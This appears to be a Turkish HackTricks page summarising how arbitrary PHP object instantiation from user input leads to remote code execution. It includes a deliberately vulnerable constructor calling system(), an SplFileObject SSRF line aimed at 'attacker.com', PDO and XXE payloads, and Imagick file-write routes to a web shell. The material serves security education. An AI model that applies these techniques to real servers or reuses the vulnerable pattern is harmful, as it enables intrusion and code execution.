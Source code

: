 # PHP - RCE nesne oluşturma istismarı: new $\_GET\["a"]\($\_GET\["b"])

{{#include ../../../banners/hacktricks-training.md}}

Bu, temelde [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) adresinin bir özetidir.

## Giriş

`new $_GET["a"]($_GET["a"])` gibi yeni rastgele nesnelerin oluşturulması, [**yazım**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)da detaylandırıldığı gibi Uzaktan Kod Yürütme (RCE) ile sonuçlanabilir. Bu belge, RCE elde etme için çeşitli stratejileri vurgulamaktadır.

## Özel Sınıflar veya Otomatik Yükleme ile RCE

`new $a($b)` sözdizimi, **`$a`** sınıf adını ve **`$b`** yapıcıya geçirilen ilk argümanı temsil eden bir nesne oluşturmak için kullanılır. Bu değişkenler, GET/POST gibi kullanıcı girdilerinden, string veya dizi olarak veya JSON'dan, diğer türler olarak elde edilebilir.

Aşağıdaki kod parçasını düşünün:
```php
class App {
function __construct ($cmd) {
system($cmd);
}
}

class App2 {
function App2 ($cmd) {
system($cmd);
}
}

$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```
Bu durumda, `$a`'yı `App` veya `App2` ve `$b`'yi bir sistem komutuna (örneğin, `uname -a`) ayarlamak, o komutun çalıştırılmasına neden olur.

**Otomatik yükleme fonksiyonları**, doğrudan erişilebilen böyle sınıflar yoksa istismar edilebilir. Bu fonksiyonlar, ihtiyaç duyulduğunda dosyalardan sınıfları otomatik olarak yükler ve `spl_autoload_register` veya `__autoload` kullanılarak tanımlanır:
```php
spl_autoload_register(function ($class_name) {
include './../classes/' . $class_name . '.php';
});

function __autoload($class_name) {
include $class_name . '.php';
};

spl_autoload_register();
```
Otomatik yüklemenin davranışı PHP sürümlerine göre değişiklik gösterir ve farklı RCE olasılıkları sunar.

## Yerleşik Sınıflar ile RCE

Özel sınıflar veya otomatik yükleyiciler yoksa, **yerleşik PHP sınıfları** RCE için yeterli olabilir. Bu sınıfların sayısı PHP sürümüne ve uzantılara bağlı olarak 100 ile 200 arasında değişir. `get_declared_classes()` kullanılarak listelenebilirler.

İlgili yapıcılar, aşağıdaki örnekte ve bağlantıda gösterildiği gibi yansıma API'si aracılığıyla tanımlanabilir: [https://3v4l.org/2JEGF](https://3v4l.org/2JEGF).

**Belirli yöntemler aracılığıyla RCE şunları içerir:**

### **SSRF + Phar Deserialization**

`SplFileObject` sınıfı, yapıcısı aracılığıyla SSRF'yi etkinleştirir ve herhangi bir URL'ye bağlantılara izin verir:
```php
new SplFileObject('http://attacker.com/');
```
SSRF, Phar protokolünü kullanan PHP'nin 8.0'dan önceki sürümlerinde deserialization saldırılarına yol açabilir.

### **PDO'ların Sömürülmesi**

PDO sınıfı yapıcı, DSN dizeleri aracılığıyla veritabanlarına bağlantılara izin verir, bu da dosya oluşturma veya diğer etkileşimleri potansiyel olarak mümkün kılar:
```php
new PDO("sqlite:/tmp/test.txt")
```
### **SoapClient/SimpleXMLElement XXE**

PHP'nin 5.3.22 ve 5.4.12 sürümleri, `SoapClient` ve `SimpleXMLElement` yapıcıları aracılığıyla XXE saldırılarına karşı savunmasızdı, bu durum libxml2 sürümüne bağlıydı.

## RCE via Imagick Extension

**Projenin bağımlılıkları** analizi sırasında, **Imagick**'in yeni nesne örnekleri oluşturarak **komut yürütme** için kullanılabileceği keşfedildi. Bu, güvenlik açıklarını istismar etme fırsatı sunar.

### VID parser

Dosya sisteminde belirtilen herhangi bir yola içerik yazma yeteneğine sahip VID parser'ın varlığı tespit edildi. Bu, web erişimine açık bir dizine bir PHP shell yerleştirilmesine yol açabilir ve Uzak Kod Yürütme (RCE) sağlanabilir.

#### VID Parser + File Upload

PHP'nin yüklenen dosyaları geçici olarak `/tmp/phpXXXXXX` dizininde sakladığı belirtilmiştir. Imagick'teki VID parser, **msl** protokolünü kullanarak dosya yollarında joker karakterleri işleyebilir ve geçici dosyayı seçilen bir konuma taşıyabilir. Bu yöntem, dosya sisteminde keyfi dosya yazma elde etmek için ek bir yaklaşım sunar.

### PHP Crash + Brute Force

[**orijinal yazımda**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) tanımlanan bir yöntem, silinmeden önce bir sunucu çökmesine neden olan dosyaların yüklenmesini içerir. Geçici dosyanın adını brute-force ile tahmin ederek, Imagick'in keyfi PHP kodu yürütmesi mümkün hale gelir. Ancak, bu tekniğin yalnızca eski bir ImageMagick sürümünde etkili olduğu bulunmuştur.

## References

- [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

{{#include ../../../banners/hacktricks-training.md}}
